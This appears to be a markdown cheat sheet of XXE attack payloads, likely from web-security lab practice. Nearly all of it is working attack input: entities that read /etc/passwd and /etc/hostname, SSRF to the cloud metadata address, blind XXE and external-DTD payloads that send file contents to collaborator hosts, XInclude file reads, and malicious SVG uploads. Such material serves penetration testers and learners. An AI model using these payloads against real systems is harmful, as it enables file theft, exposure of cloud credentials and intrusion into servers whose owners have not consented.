 # XXE Payloads
### Normal Method
```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>  >> For retrieving server files.

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>  >> For SSRF attack.

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://zhkjg0n2ikpienyuf43fiyvuelkc82wr.oastify.com"> ]>  >> For Blind xxe attack.
&xxe;
```
Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead.
```xml
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://x0yhzy601i8gxlhsy2md1wesxj3ar2fr.oastify.com"> %xxe; ]>  >> For Blind xxe via XML parameter entities.
```
With real-world XXE vulnerabilities, there will often be a large number of data values within the submitted XML, any one of which might be used within the application's response. To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, by making use of your defined entity and seeing whether it appears within the response.
### Exploiting blind XXE via external DTD server
Host this payload with burp collaborator in external DTD server.
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://uljekvrxmftdii2pjz7amtzpigo7c50u.oastify.com/?x=%file;'>">
%eval;
%exfil;
____________________________________________
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```
Now paste the external DTD server link in burpsuite
```xml
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://external.dtd.server"> %xxe; ]>
```
### Exploiting XInclude to retrieve files
Some applications receive client-submitted data via parameter value(id=1) without xml body, embed it on the server-side into an XML document, and then parse the document. In this situation try this method. Use &xxe; (encode & to %26) to parameter value(id=&xxe;) to identify xxe via error message. Then place this payload in value to retrieve file.
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```
### Exploiting XXE via image file upload
Change: 
    filename="test.png" to filename="attack.svg" >>
    Content-Type: image/png to Content-Type: image/svg+xml >>
Then put this payload in pixel data.
```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
